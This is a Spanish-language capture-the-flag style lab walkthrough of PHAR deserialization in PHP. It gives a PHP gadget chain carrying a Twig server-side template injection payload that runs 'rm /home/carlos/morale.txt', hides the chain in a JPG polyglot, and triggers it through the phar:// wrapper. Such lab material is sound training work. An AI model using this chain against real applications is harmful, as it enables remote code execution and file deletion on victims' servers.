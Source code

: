 Una vez subido el archivo avatar con el payload PHAR incrustado, realizamos una petición a ‘**avatar.php**‘ modificando el parámetro ‘**avatar**‘ para usar el protocolo ‘**phar://**‘.

Esto hace que ‘**file_exists()**‘ evalúe el archivo como un objeto serializado, desencadenando la ejecución de nuestro payload Twig embebido, lo cual provoca que se ejecute el comando ‘**rm /home/carlos/morale.txt**‘, resolviendo así el laboratorio.

Solucion
entonces una vez acabo el payload que daria asi
(<?php
    class Blog {}
    class CustomTemplate {}
    $blog = new Blog();
    $blog->user = 'pwned';                             
    $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
    $obj = new CustomTemplate();
    $obj->template_file_path = $blog;
?>)

entonces para que funcione este codigo nosotro vamos a utilizar una herramienta en github que se llama polyglot (https://github.com/kunte0/phar-jpg-polyglot)
Este repositorio es una herramienta para generar archivos JPG que también contienen código PHAR ejecutable. Está pensado para pruebas de seguridad y retos CTF, y demuestra cómo una imagen aparentemente inocente puede ocultar código PHP malicioso. Es una técnica avanzada usada en auditorías de seguridad para detectar vulnerabilidades en el manejo de archivos por parte de aplicaciones PHP.
![[Pasted image 20250827214636.png]]
entonces modificamos el codigo de esta imagen
![[Pasted image 20250827214948.png]]
tal que vamos a elminar el ejemplo y poner nuestro codigo de archivo malicioso
![[Pasted image 20250827215132.png]]
tal que queda asi
![[Pasted image 20250827215341.png]]
ejecutamos pasandole los archivos
![[Pasted image 20250827215511.png]]
podemos ver que ya nos realiza el objeto
subimos el archivo out.jpg
![[Pasted image 20250827215629.png]]
vemos que la imagen se sube
![[Pasted image 20250827215724.png]]
si nosotros inspeccionamos la imagen vemos que tiene la misma ruta
![[Pasted image 20250827215807.png]]
copiamos solo que en este caso vamos agregar phar y le damos a enter
![[Pasted image 20250827215906.png]]vemos que nos sale not found pero si vamos al home
![[Pasted image 20250827215958.png]]
![[Pasted image 20250827220025.png]]
